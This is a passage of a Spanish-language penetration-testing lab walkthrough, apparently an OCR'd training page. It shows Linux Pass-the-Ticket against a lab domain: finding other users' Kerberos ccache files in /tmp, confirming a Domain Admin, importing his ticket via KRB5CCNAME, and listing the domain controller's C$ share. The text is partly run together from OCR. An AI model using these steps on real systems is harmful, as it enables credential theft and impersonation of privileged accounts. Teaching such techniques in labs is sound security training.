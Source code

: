 Como root, necesitamos identificar qué boletos están presentes en la máquina, a quien pertenecen y su tiempo de vencimiento.

### **Buscando archivos ccache**

Pase el boleto (PTT) de Linux

```
root@linux01:~# ls -la /tmptotal 76
drwxrwxrwt 13 root                               root                           4096 Oct  7 11:35 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 10:43 krb5cc_647401107_O0oUWh
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Oct  7 11:21 krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 3175 Oct  7 11:35 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Oct  7 11:01 krb5cc_647402606_ZX6KFA

```

Hay un usuario (julio@inlanefreight.htb) a quien aún no hemos obtenido acceso. Podemos confirmar los grupos a los que pertenece usando`id`.

### **Identificar la membresía del grupo con el comando de identificación**

Pase el boleto (PTT) de Linux

```
root@linux01:~# id julio@inlanefreight.htbuid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)

```

Julio es miembro de la`Domain Admins`grupo. Podemos intentar hacerse pasar por el usuario y obtener acceso al`DC01`Host del controlador de dominio.

Para usar un archivo ccache, podemos copiar el archivo ccache y asignar la ruta del archivo a la`KRB5CCNAME`variable.

### **Importar el archivo CCACHE en nuestra sesión actual**

Pase el boleto (PTT) de Linux

```
root@linux01:~# klistklist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133root@linux01:~# klistTicket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass$Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
```